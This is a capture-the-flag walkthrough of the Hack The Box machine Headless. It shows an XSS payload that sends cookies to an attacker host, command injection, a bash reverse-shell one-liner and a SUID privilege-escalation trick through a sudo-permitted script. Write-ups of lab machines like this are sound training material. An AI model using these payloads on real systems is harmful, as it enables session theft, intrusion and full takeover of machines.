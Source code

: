 🔍 HTB: Headless — Walkthrough

Initial Foothold: XSS ➜ Cookie Theft ➜ Command Injection ➜ Root via SUID Priv Esc

Welcome to my write-up for the Hack The Box machine Headless. While multiple approaches exist for this box, I’ll break down the exact steps I used to gain root—starting from XSS and ending with privilege escalation via a misconfigured script with sudo rights.
🔎 Enumeration

I kicked things off with a standard nmap scan:

nmap -sC -sV -v <target-ip>

Port 5000 stood out—it hosted a web service. Exploring it revealed a minimal web interface with very few entry points.

To dive deeper, I ran:

feroxbuster -u http://<target-ip>:5000/ -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt

This helped identify two directories:

    /support/

    /dashboard/ (which returned unauthorized access)

The /support/ page had a contact form. I intercepted a submission in BurpSuite and attempted XSS on the message field, but it triggered a “Hacking Attempt Detected” response.
🍪 XSS ➜ Cookie Theft

Noticing a cookie named is_admin—which appeared even without authentication—caught my attention.

I crafted a simple XSS payload:

<img src=x onerror=fetch('http://<attacker-ip>/?c='+document.cookie);>

While injecting it into the message field didn’t work due to filters, I realized the User-Agent header wasn’t sanitized properly. Injecting the same payload into User-Agent triggered the callback and leaked the cookie to my listener.

This allowed me to hijack the session by setting the stolen is_admin cookie and accessing the /dashboard/.
⚙️ Command Injection

With admin access, I intercepted further requests using Burp and discovered a parameter vulnerable to command injection.

Appending a semicolon (;) followed by a payload—like so:

; id

...confirmed that OS-level commands could be executed.

Using a classic bash reverse shell one-liner:

bash -c 'bash -i >& /dev/tcp/<attacker-ip>/<port> 0>&1'

...I gained a shell as user dvir.
🔐 Privilege Escalation — Sudo Misconfiguration

Running sudo -l revealed that I could execute /usr/bin/syscheck as root without a password.

On inspecting the script, I noticed it would check for and execute a script named initdb.sh from the current directory.

I weaponized this by creating initdb.sh with the following contents:

echo "cp /bin/bash ./bash && chmod +s ./bash" > initdb.sh
chmod +x initdb.sh

Then ran:

sudo /usr/bin/syscheck

This dropped a bash binary with the SUID bit set. I simply executed:

./bash -p

...and gained a root shell.
🎯 Summary

    Initial Access: Reflected XSS ➜ Cookie theft via User-Agent header

    Shell: Command Injection ➜ Reverse shell as dvir

    Privilege Escalation: Misconfigured sudo permissions ➜ Execute arbitrary script via /usr/bin/syscheck

And that’s how I rooted Headless 😎
